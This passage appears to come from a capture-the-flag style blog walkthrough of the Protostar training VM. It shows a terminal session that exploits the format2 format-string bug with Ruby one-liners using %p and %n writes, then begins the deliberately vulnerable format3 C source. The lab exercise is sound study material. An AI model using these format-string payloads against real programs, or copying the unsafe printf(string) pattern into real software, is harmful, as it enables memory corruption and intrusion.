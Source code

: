 {% codeblock %}
user@protostar:~$ ruby -e 'print "DDDD" + " %p" * 10' | /opt/protostar/bin/format2 
DDDD 0x200 0xb7fd8420 0xbffff5d4 0x44444444 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070target is 0 :(

user@protostar:~$ ruby -e 'print "DDDD %4\$p"' | /opt/protostar/bin/format2 
DDDD 0x44444444target is 0 :(

user@protostar:~$ nm /opt/protostar/bin/format2 | grep target
080496e4 B target

user@protostar:~$ ruby -e 'print [0x080496e4].pack("V") + " %4\$p"' | /opt/protostar/bin/format2
 0x80496e4target is 0 :(

user@protostar:~$ ruby -e 'print [0x080496e4].pack("V") + " %4\$n"' | /opt/protostar/bin/format2
 target is 5 :(

user@protostar:~$ ruby -e 'print [0x080496e4].pack("V") + " %4\$x %4\$n"' | /opt/protostar/bin/format2
 80496e4 target is 13 :(

user@protostar:~$ ruby -e 'print [0x080496e4].pack("V") + " %4\$61x %4\$n"' | /opt/protostar/bin/format2
                                                       80496e4 target is 67 :(

user@protostar:~$ ruby -e 'print [0x080496e4].pack("V") + " %4\$58x %4\$n"' | /opt/protostar/bin/format2
                                                    80496e4 you have modified the target :)
{% endcodeblock %}

## Protostar Format3
{% codeblock lang:c format3.c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}
